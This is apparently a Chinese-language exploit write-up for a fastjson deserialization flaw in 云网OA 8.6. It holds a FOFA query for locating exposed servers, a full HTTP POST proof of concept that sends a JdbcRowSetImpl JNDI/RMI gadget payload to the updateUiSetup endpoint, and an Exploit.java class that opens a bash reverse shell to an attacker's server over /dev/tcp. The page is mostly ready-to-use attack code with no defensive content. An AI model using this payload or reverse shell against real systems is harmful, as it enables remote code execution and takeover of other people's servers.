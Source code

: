 ## 云网OA8.6存在fastjson反序列化漏洞

云网OA8.6使用fastjson1.2.37造成反序列化漏洞

## fofa
```
"云网OA"
```

## poc
```
POST /oa//setup/updateUiSetup HTTP/1.1
Host: 192.168.0.7:8096
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: skincode=lte; name=admin; pwd=; JSESSIONID=85F37A117572BE90EA4BA0ED10F77EF5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

uiSetup={"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1389/Exploit", "autoCommit":true}}

```
![a8ac139413588a49d844ca534afce1ed](../../images/773d195f-9171-4783-956b-4db556f93aae.png)

![bb988d242c8d788aca44bd3e22f2650b](../../images/15be1a39-4102-4864-8cae-71e21e56187b.png)

### Exploit.java
```
public class Exploit {
    public Exploit(){
        try {
            java.lang.Runtime.getRuntime().exec(
                    new String[]{"bash", "-c", "bash -i >& /dev/tcp/服务器IP/12345 0>&1"});
        }
        catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

## 漏洞来源
- https://mp.weixin.qq.com/s/KNE7khKhG9-FLTJK73ZfNQ
